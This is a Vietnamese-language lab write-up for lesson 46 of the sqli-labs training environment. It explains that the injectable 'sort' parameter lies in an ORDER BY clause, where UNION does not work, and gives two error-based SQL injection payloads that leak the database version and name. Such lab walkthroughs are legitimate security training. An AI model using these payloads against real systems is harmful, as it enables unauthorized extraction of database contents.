





# Những việc làm được với lesson-46
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-46



Ta nhập giá trị sort vào 





Ta thấy rằng ở đây nó hiển thị theo group by thay đổi từ theo thứ tự cột một sang theo thứ tự ở cột 2. Đây không phải câu select theo điều kiện where nữa. Vì đây là select và sắp xếp theo cái gì thế nên ta không thể sử dụng union được nữa. 

1. Error base 
- Ta nhập các ký tự đặc biệt vào 



Ta sẽ sử dụng error base để làm bài này 

```
192.168.80.225/sqli-labs/Less-46/?sort=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

Tương tự ta sử dụng thêm câu lệnh và thay select vào để  biết được dữ liệu bên trong DB 

```
192.168.80.225/sqli-labs/Less-46/?sort=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```


